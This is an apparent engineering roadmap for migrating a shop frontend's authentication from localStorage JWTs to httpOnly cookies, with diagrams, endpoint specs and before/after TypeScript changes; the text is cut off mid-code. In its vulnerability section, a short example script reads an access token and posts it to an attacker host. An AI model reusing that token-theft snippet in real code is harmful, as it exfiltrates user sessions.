





# Cookie-Based Authentication Migration Roadmap

**Project**: Online Shop Business Frontend
**Start Date**: 2026-02-09
**Completion Date**: 2026-02-10
**Status**: ✅ COMPLETE
**Actual Effort**: 1 day (Phases 1-6 completed)
**Risk Level**: LOW (3 admin users only)

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Current State Analysis](#2-current-state-analysis)
3. [Proposed Solution](#3-proposed-solution)
4. [Implementation Roadmap](#4-implementation-roadmap)
5. [Testing Strategy](#5-testing-strategy)
6. [Rollout Plan](#6-rollout-plan)
7. [Success Criteria](#7-success-criteria)
8. [Appendix](#8-appendix)

---

## Migration Status Summary

**✅ MIGRATION COMPLETE** (2026-02-10)

All 7 phases of the cookie-based authentication migration have been successfully completed:

- **Phase 1**: ✅ Preparation & Infrastructure Setup (2026-02-09)
- **Phase 2**: ✅ Core Auth Service Migration (2026-02-10)
- **Phase 3**: ✅ State Management Update (2026-02-10)
- **Phase 4**: ✅ App Initialization & Protected Routes (2026-02-10)
- **Phase 5**: ✅ API Interceptor Update (2026-02-10)
- **Phase 6**: ✅ Testing & Verification (2026-02-10)
- **Phase 7**: ✅ Documentation & Finalization (2026-02-10)

**Key Outcomes**:
- **Security**: Eliminated XSS token theft vulnerability via httpOnly cookies
- **Code Reduction**: -286 lines (18 files modified)
- **Simplification**: Removed complex token management logic
- **Testing**: All flows verified (login, refresh, logout, session restoration)
- **Documentation**: Comprehensive sequence diagrams and reference docs created

**Commits**:
- Phase 1: Infrastructure setup
- Phase 2: `18bda0e` - Core migration (-286 lines, 18 files)
- Phase 7: Documentation & sequence diagrams

For detailed sequence diagrams, see: [AUTH_SEQUENCE_DIAGRAMS.md](./AUTH_SEQUENCE_DIAGRAMS.md)

---

## 1. Executive Summary

### 1.1 Objective

Migrate from **localStorage-based JWT authentication** to **httpOnly cookie-based authentication** to eliminate XSS token theft vulnerability while maintaining existing UX.

### 1.2 Key Benefits

- **Security**: Eliminates JavaScript access to tokens (XSS protection)
- **Simplicity**: Removes redundant token storage and client-side expiry checks
- **Compliance**: Aligns with OWASP security recommendations
- **Maintainability**: Cleaner, more straightforward auth flow

### 1.3 Key Changes

| Aspect | Current (localStorage) | Target (httpOnly Cookies) |
|--------|------------------------|---------------------------|
| **Token Storage** | localStorage + Zustand persist | Browser httpOnly cookies (JS cannot access) |
| **Token Transport** | `Authorization: Bearer` header | Automatic cookie attachment with `credentials: 'include'` |
| **Token Refresh** | Proactive (5 min before expiry) + Reactive (401) + Periodic (2 min) | Reactive only (401 interceptor) |
| **Session Validation** | Client-side JWT decode + periodic checks | Backend `/auth/me` endpoint |
| **Logout** | Clear localStorage + Zustand | Backend `/auth/logout` clears cookies |

### 1.4 Timeline

- **Phase 1-2**: 4-6 hours (Core migration)
- **Phase 3-4**: 2-3 hours (Testing & cleanup)
- **Phase 5-6**: 2-3 hours (Documentation & verification)
- **Total**: 8-12 hours (1-2 days)

---

## 2. Current State Analysis

### 2.1 Authentication Architecture

#### 2.1.1 Token Flow (Current)

```
┌─────────────┐                  ┌─────────────┐                  ┌─────────────┐
│   Browser   │                  │  Frontend   │                  │   Backend   │
│  (User)     │                  │  (React)    │                  │   (API)     │
└──────┬──────┘                  └──────┬──────┘                  └──────┬──────┘
       │                                │                                │
       │  1. Enter credentials          │                                │
       ├───────────────────────────────>│                                │
       │                                │  2. POST /auth/login           │
       │                                │    {username, password}        │
       │                                ├───────────────────────────────>│
       │                                │                                │
       │                                │  3. Returns tokens in JSON     │
       │                                │    {access_token, refresh_token│
       │                                │     user: {...}}               │
       │                                │<───────────────────────────────┤
       │                                │                                │
       │                                │  4. Store tokens:              │
       │                                │     - localStorage.setItem()   │
       │                                │     - Zustand persist          │
       │                                │                                │
       │  5. Redirect to dashboard      │                                │
       │<───────────────────────────────┤                                │
       │                                │                                │
       │  6. Make authenticated request │                                │
       ├───────────────────────────────>│                                │
       │                                │  7. Add Authorization header   │
       │                                │    Bearer <access_token>       │
       │                                ├───────────────────────────────>│
       │                                │                                │
       │                                │  8. Validate token & return data│
       │                                │<───────────────────────────────┤
       │  9. Display data               │                                │
       │<───────────────────────────────┤                                │
```

#### 2.1.2 Current File Structure

```
src/
├── stores/
│   └── authStore.ts              # Zustand store with persist
├── services/
│   ├── api.ts                    # Axios instance + interceptors
│   └── authService.ts            # Auth operations (login, refresh, logout)
├── components/
│   ├── AuthInitializer.tsx       # App startup auth validation
│   └── ProtectedRoute.tsx        # Route guard
├── hooks/
│   └── useAuthValidation.ts      # Periodic token validation
└── pages/
    └── LoginPage.tsx             # Login form
```

#### 2.1.3 Current Implementation Details

**Key Files:**

1. **`src/stores/authStore.ts`** (124 lines)
   - Stores: `user`, `token`, `isAuthenticated`, `isLoading`
   - Actions: `login()`, `logout()`, `updateToken()`, `getCurrentToken()`, `validateTokenOnInit()`
   - **Issue**: Stores token in both Zustand persist AND manual localStorage
   ```typescript
   // Line 41-51: Dual token storage
   login: (token: string, user: User) => {
     set({ user, token, isAuthenticated: true });
     localStorage.setItem('access_token', token);  // ← Redundant
     // Note: refresh_token stored separately by authService
   }
   ```

2. **`src/services/authService.ts`** (205 lines)
   - `login()`: Stores tokens in localStorage (lines 25-56)
   - `refreshAccessToken()`: Reads refresh token from localStorage (lines 58-81)
   - `isTokenExpiringSoon()`: Client-side JWT decode (lines 119-136)
   - `refreshTokenIfNeeded()`: Proactive refresh (lines 138-149)
   - `makeAuthenticatedRequest()`: Wrapper with retry logic (lines 151-175)
   - **Issue**: Mixes token storage, HTTP calls, and token validation

3. **`src/services/api.ts`** (320 lines)
   - **Request interceptor** (lines 36-53): Adds `Authorization: Bearer` header
   - **Response interceptor** (lines 56-103): Handles 401 with auto-refresh
   - **Issue**: Uses full URL for login (lines 28-33), bypasses baseURL

4. **`src/components/AuthInitializer.tsx`** (61 lines)
   - Calls `validateTokenOnInit()` on app startup
   - Refreshes token if expiring within 5 minutes

5. **`src/components/ProtectedRoute.tsx`** (57 lines)
   - Validates token on mount via `useAuthValidation` hook
   - Redirects to login if not authenticated

6. **`src/hooks/useAuthValidation.ts`** (65 lines)
   - Validates token every 2 minutes
   - Calls `refreshTokenIfNeeded()` proactively
   - **Issue**: Unnecessary with cookie-based auth (can't decode httpOnly cookies)

### 2.2 Security Vulnerabilities (Current)

#### 2.2.1 XSS Token Theft

**Vulnerability:**
```typescript
// VULNERABLE: Any JavaScript can read tokens
const stolenToken = localStorage.getItem('access_token');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: stolenToken
});
```

**Attack Vectors:**
- Compromised third-party scripts (analytics, CDN)
- XSS via unescaped user input
- Malicious browser extensions

**Impact**: Full account compromise

#### 2.2.2 Token Storage Redundancy

**Current storage locations:**
1. `localStorage.access_token` (manual)
2. `localStorage.refresh_token` (manual)
3. `localStorage.auth-storage` (Zustand persist with `token` field)

**Issue**: Single source of truth violation → potential sync bugs

#### 2.2.3 CSP Weakness

**Current CSP** ([nginx-security-headers.conf:5](../nginx-security-headers.conf#L5)):
```
script-src 'self' 'unsafe-inline' ...
```

**Fixed** (recent commit): Now uses nonces instead of `'unsafe-inline'` ✅

### 2.3 Current Token Refresh Strategy

**Multi-layered approach** (excessive for cookie-based auth):

1. **Proactive** (`authService.isTokenExpiringSoon()`)
   - Checks if token expires within 5 minutes
   - Client-side JWT decode: `JSON.parse(atob(token.split('.')[1]))`
   - Triggers refresh preemptively

2. **Reactive** (`api.ts` response interceptor)
   - Catches 401 errors
   - Calls `/auth/refresh` with token in body
   - Retries original request

3. **Periodic** (`useAuthValidation` hook)
   - Validates every 2 minutes
   - Calls `refreshTokenIfNeeded()`

4. **On Mount** (`AuthInitializer`, `ProtectedRoute`)
   - Validates on app startup
   - Validates on route access

**Analysis**: Layers 1, 3, 4 become obsolete with cookies (backend manages expiry)

---

## 3. Proposed Solution

### 3.1 Cookie-Based Authentication Architecture

#### 3.1.1 Token Flow (Target)

```
┌─────────────┐                  ┌─────────────┐                  ┌─────────────┐
│   Browser   │                  │  Frontend   │                  │   Backend   │
│  (Cookies)  │                  │  (React)    │                  │   (API)     │
└──────┬──────┘                  └──────┬──────┘                  └──────┬──────┘
       │                                │                                │
       │  1. Enter credentials          │                                │
       ├───────────────────────────────>│                                │
       │                                │  2. POST /auth/login           │
       │                                │    {username, password}        │
       │                                │    credentials: 'include'      │
       │                                ├───────────────────────────────>│
       │                                │                                │
       │                                │  3. Set-Cookie: access_token   │
       │                                │     Set-Cookie: refresh_token  │
       │                                │     Body: {user: {...}}        │
       │<═══════════════════════════════╧════════════════════════════════╡
       │  (Cookies stored by browser)   │                                │
       │                                │                                │
       │  4. Store user in Zustand      │                                │
       │    (NO token storage!)         │                                │
       │                                │                                │
       │  5. Redirect to dashboard      │                                │
       │<───────────────────────────────┤                                │
       │                                │                                │
       │  6. Make authenticated request │                                │
       ├───────────────────────────────>│                                │
       │                                │  7. credentials: 'include'     │
       │  (Browser auto-attaches        │    (NO Authorization header)   │
       │   cookies)                     ├───────────────────────────────>│
       ╞════════════════════════════════╡                                │
       │                                │  8. Validate cookie & return   │
       │                                │<───────────────────────────────┤
       │  9. Display data               │                                │
       │<───────────────────────────────┤                                │
```

#### 3.1.2 Key Differences

| Component | Current (localStorage) | Target (httpOnly Cookies) |
|-----------|------------------------|---------------------------|
| **Token visibility** | JavaScript can read/write | JavaScript cannot access (httpOnly) |
| **Token transport** | Manual header injection | Automatic browser attachment |
| **Storage location** | localStorage (3 places) | Browser cookie store (1 place) |
| **Refresh trigger** | Client detects expiry | Server returns 401 |
| **Session validation** | Client decodes JWT | Server endpoint `/auth/me` |

### 3.2 Backend Endpoints

**Confirmed by backend team:**

1. **`POST /api/v1/auth/login`**
   - **Request**: `{ username: string, password: string }`
   - **Response**:
     - Headers: `Set-Cookie: access_token=...; HttpOnly; Secure; SameSite=Lax; Max-Age=1800`
     - Headers: `Set-Cookie: refresh_token=...; HttpOnly; Secure; SameSite=Lax; Max-Age=604800`
     - Body: `{ id: number, username: string }` (NO tokens!)

2. **`POST /api/v1/auth/refresh`**
   - **Request**: Empty body (cookies sent automatically)
   - **Response**:
     - Headers: `Set-Cookie: access_token=...` (new token)
     - Headers: `Set-Cookie: refresh_token=...` (rotated token)
     - Body: `{ expires_in: 1800 }` (optional)

3. **`GET /api/v1/auth/me`**
   - **Request**: No params (cookies sent automatically)
   - **Response**: `{ id: number, username: string }` or 401

4. **`POST /api/v1/auth/logout`**
   - **Request**: Empty body (cookies sent automatically)
   - **Response**:
     - Headers: `Set-Cookie: access_token=; Max-Age=0` (clear)
     - Headers: `Set-Cookie: refresh_token=; Max-Age=0` (clear)
     - Body: `204 No Content`

### 3.3 Token Lifetimes

| Token Type | Lifetime | Configurable Via |
|------------|----------|------------------|
| **Access Token** | 30 minutes (1,800 seconds) | `JWT_ACCESS_TOKEN_EXPIRE_MINUTES` |
| **Refresh Token** | 7 days (604,800 seconds) | `JWT_REFRESH_TOKEN_EXPIRE_DAYS` |

**Refresh Token Rotation**: Every call to `/auth/refresh` issues a **new** refresh token and revokes the old one (prevents token reuse attacks).

### 3.4 Cookie Attributes

```
Set-Cookie: access_token=<jwt>;
  Path=/;
  HttpOnly;                     ← JavaScript cannot read
  Secure;                       ← HTTPS only (production)
  SameSite=Lax;                 ← CSRF protection
  Max-Age=1800                  ← 30 minutes
```

### 3.5 CORS Configuration

**Backend is configured with:**
```python
CORSMiddleware(
    allow_origins=settings.CORS_ORIGINS,    # Exact origins (not *)
    allow_credentials=True,                 # ← Critical for cookies!
    allow_methods=["*"],
    allow_headers=["*"],
)
```

**Frontend must use:**
```typescript
axios.create({
  withCredentials: true  // ← Critical for cookies!
})
```

### 3.6 Simplified Token Refresh Flow

**Current (localStorage):**
```
1. Client checks: Is token expiring in <5 min? → Refresh
2. Periodic: Check every 2 minutes → Refresh if needed
3. On API call: If 401 → Refresh → Retry
4. On mount: Validate token → Refresh if expiring
```

**Target (cookies):**
```
1. On API call: If 401 → Refresh → Retry
   (That's it! Backend manages expiry via cookie lifetimes)
```

**Benefit**: Simpler, less code, same UX

---

## 4. Implementation Roadmap

### 4.1 Phase 1: Preparation & Infrastructure Setup ✅

**Status**: ✅ COMPLETE (2026-02-09)
**Duration**: 1-2 hours
**Risk**: Low
**Goal**: Enable cookie support without breaking existing auth

#### 4.1.1 Update Axios Configuration

**File**: `src/services/api.ts`

**Change 1**: Enable credentials globally

```typescript
// BEFORE (line 8-13)
export const apiClient: AxiosInstance = axios.create({
  headers: {
    'Content-Type': 'application/json',
  },
  timeout: 10000,
});

// AFTER
export const apiClient: AxiosInstance = axios.create({
  headers: {
    'Content-Type': 'application/json',
  },
  timeout: 10000,
  withCredentials: true,  // ← ADD THIS: Enable cookies
});
```

**Change 2**: Fix login to use relative path (consistency)

**File**: `src/services/authService.ts`

```typescript
// BEFORE (lines 28-33)
const baseUrl = window.__RUNTIME_CONFIG__?.VITE_API_BASE_URL ||
                import.meta.env.VITE_API_BASE_URL || getApiBaseUrl();
const fullUrl = `${baseUrl}/api/v1/auth/login`;
const response = await apiClient.post<AuthResponse>(fullUrl, credentials);

// AFTER
const response = await apiClient.post<AuthResponse>('/auth/login', credentials);
// ↑ Use relative path like all other endpoints (interceptor adds baseURL)
```

**Why**: Login was bypassing the request interceptor's dynamic baseURL logic. This makes it consistent.

#### 4.1.2 Verification Steps

1. **Test current auth still works:**
   ```bash
   npm run dev
   # Login → Should work as before
   # Check Network tab → Authorization header still present
   # Check Cookies tab → Should see cookies being set (backend already supports both!)
   ```

2. **Verify cookies are sent:**
   ```bash
   # In DevTools Network tab:
   # 1. Look at login response → Check for Set-Cookie headers
   # 2. Look at subsequent requests → Check Cookie header is sent
   ```

**Rollback**: If anything breaks, revert these two lines and investigate.

---

### 4.2 Phase 2: Core Auth Service Migration ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Commit**: `18bda0e` (-286 lines, 18 files)
**Duration**: 2-3 hours
**Risk**: Medium
**Goal**: Update auth service to use cookies instead of localStorage

#### 4.2.1 Update TypeScript Types

**File**: `src/services/authService.ts`

```typescript
// BEFORE (lines 9-18)
export interface AuthResponse {
  access_token: string;      // ← REMOVE
  refresh_token: string;     // ← REMOVE
  user: {
    id: number;
    email: string;
    name: string;
    role: 'admin' | 'customer';
  };
}

// AFTER
export interface AuthResponse {
  // Tokens are in cookies, not in response body
  id: number;
  username: string;
  // Optional: role, email if backend returns them
}

// REMOVE: RefreshResponse interface (no longer needed)
```

#### 4.2.2 Update `login()` Method

**File**: `src/services/authService.ts`

```typescript
// BEFORE (lines 25-56)
async login(credentials: LoginCredentials): Promise<AuthResponse> {
  try {
    const baseUrl = window.__RUNTIME_CONFIG__?.VITE_API_BASE_URL || ...;
    const fullUrl = `${baseUrl}/api/v1/auth/login`;

    const response = await apiClient.post<AuthResponse>(fullUrl, credentials);

    const { access_token, refresh_token, user } = response.data;

    // Store refresh token
    localStorage.setItem('refresh_token', refresh_token);

    // Update auth store
    useAuthStore.getState().login(access_token, userData);

    return response.data;
  } catch (error) {
    console.error('Login error:', error);
    throw error;
  }
}

// AFTER
async login(credentials: LoginCredentials): Promise<AuthResponse> {
  try {
    // Use relative path (consistent with other endpoints)
    const response = await apiClient.post<AuthResponse>('/auth/login', credentials);

    // Backend sets cookies automatically (access_token, refresh_token)
    // Frontend only stores user info
    const user = response.data;

    // Update auth store (NO token parameter)
    useAuthStore.getState().login(user);

    return response.data;
  } catch (error) {
    console.error('Login error:', error);
    throw error;
  }
}
```

**Key changes:**
- ✅ Use relative path
- ✅ Don't read tokens from response
- ✅ Don't store tokens in localStorage
- ✅ Pass user object to store (not token)

#### 4.2.3 Update `refreshAccessToken()` Method

```typescript
// BEFORE (lines 58-81)
async refreshAccessToken(): Promise<RefreshResponse> {
  try {
    const refreshToken = localStorage.getItem('refresh_token');

    if (!refreshToken) {
      throw new Error('No refresh token available');
    }

    const response = await apiClient.post<RefreshResponse>('/auth/refresh', {
      refresh_token: refreshToken,  // ← Token in body
    });

    const { access_token } = response.data;

    // Update token in auth store
    useAuthStore.getState().updateToken(access_token);

    return response.data;
  } catch (error) {
    console.error('Token refresh error:', error);
    this.logout();
    throw error;
  }
}

// AFTER
async refreshAccessToken(): Promise<void> {
  try {
    // No body needed - backend reads refresh_token from cookie
    await apiClient.post('/auth/refresh');

    // Backend updates cookies automatically
    // No need to update anything in frontend state

    console.log('Token refreshed successfully');
  } catch (error) {
    console.error('Token refresh error:', error);
    this.logout();
    throw error;
  }
}
```

**Key changes:**
- ✅ No request body (cookies sent automatically)
- ✅ No response handling (cookies updated by backend)
- ✅ Return type changed to `void`

#### 4.2.4 Update `logout()` Method

```typescript
// BEFORE (lines 95-105)
logout(): void {
  // Clear tokens from localStorage
  localStorage.removeItem('access_token');
  localStorage.removeItem('refresh_token');

  // Clean up push notifications
  this.cleanupPushSubscriptions();

  // Update auth store
  useAuthStore.getState().logout();
}

// AFTER
async logout(): Promise<void> {
  try {
    // Call backend to clear cookies
    await apiClient.post('/auth/logout');
  } catch (error) {
    // Even if backend call fails, clear local state
    console.warn('Logout request failed, clearing local state anyway:', error);
  }

  // Clean up push notifications (keep this!)
  await this.cleanupPushSubscriptions();

  // Clear React Query cache
  const { queryClient } = await import('@/lib/queryClient');
  queryClient.clear();

  // Update auth store
  useAuthStore.getState().logout();
}
```

**Key changes:**
- ✅ Changed to `async` to call backend
- ✅ Call `/auth/logout` endpoint
- ✅ Keep push notification cleanup
- ✅ Add React Query cache clearing
- ✅ No manual token removal (backend clears cookies)

#### 4.2.5 Remove Obsolete Methods

**Delete these methods from `authService.ts`:**

```typescript
// DELETE: isTokenExpiringSoon() (lines 119-136)
// Reason: Can't decode httpOnly cookies client-side

// DELETE: refreshTokenIfNeeded() (lines 138-149)
// Reason: No longer doing proactive refresh

// DELETE: makeAuthenticatedRequest() (lines 151-175)
// Reason: Interceptor handles this automatically

// DELETE: getAccessToken() (lines 111-113)
// Reason: No access to cookies from JS

// DELETE: getRefreshToken() (lines 115-117)
// Reason: No access to cookies from JS
```

**Keep these methods:**
```typescript
// KEEP: login()
// KEEP: refreshAccessToken()
// KEEP: changePassword()
// KEEP: logout()
// KEEP: isAuthenticated()
// KEEP: cleanupPushSubscriptions()
```

---

### 4.3 Phase 3: State Management Update ✅

**Status**: ✅ COMPLETE (2026-02-10)
**Duration**: 1 hour
**Risk**: Low
**Goal**: Remove token storage from Zustand store

#### 4.3.1 Update Auth Store Interface

**File**: `src/stores/authStore.ts`

```typescript
// BEFORE (lines 12-17)
export interface AuthState {
  user: User | null;
  token: string | null;        // ← REMOVE
  isAuthenticated: boolean;
  isLoading: boolean;
}

// AFTER
export interface AuthState {
  user: User | null;
  // token removed - stored in httpOnly cookies
  isAuthenticated: boolean;
  isLoading: boolean;
}
```

#### 4.3.2 Update Auth Actions Interface

```typescript
// BEFORE (lines 19-27)
export interface AuthActions {
  login: (token: string, user: User) => void;      // ← Change signature
  logout: () => void;
  setLoading: (loading: boolean) => void;
  updateUser: (user: User) => void;
  updateToken: (token: string) => void;            // ← REMOVE
  getCurrentToken: () => string | null;            // ← REMOVE
  validateTokenOnInit: () => Promise<boolean>;     // ← REMOVE (replace)
}

// AFTER
export interface AuthActions {
  login: (user: User) => void;                     // ← No token param
  logout: () => void;
  setLoading: (loading: boolean) => void;
  updateUser: (user: User) => void;
  // Removed: updateToken, getCurrentToken, validateTokenOnInit
}
```

#### 4.3.3 Update Store Implementation

```typescript
// BEFORE (lines 31-124)
export const useAuthStore = create<AuthStore>()(
  persist(
    (set, get) => ({
      // State
      user: null,
      token: null,
      isAuthenticated: false,
      isLoading: false,

      // Actions
      login: (token: string, user: User) => {
        set({
          user,
          token,
          isAuthenticated: true,
          isLoading: false,
        });

        // Backward compatibility
        localStorage.setItem('access_token', token);
      },

      logout: () => {
        set({
          user: null,
          token: null,
          isAuthenticated: false,
          isLoading: false,
        });

        // Remove tokens
        localStorage.removeItem('access_token');
        localStorage.removeItem('refresh_token');
      },

      updateToken: (token: string) => {
        set({ token });
        localStorage.setItem('access_token', token);
      },

      getCurrentToken: () => {
        return get().token;
      },

      validateTokenOnInit: async () => {
        const state = get();
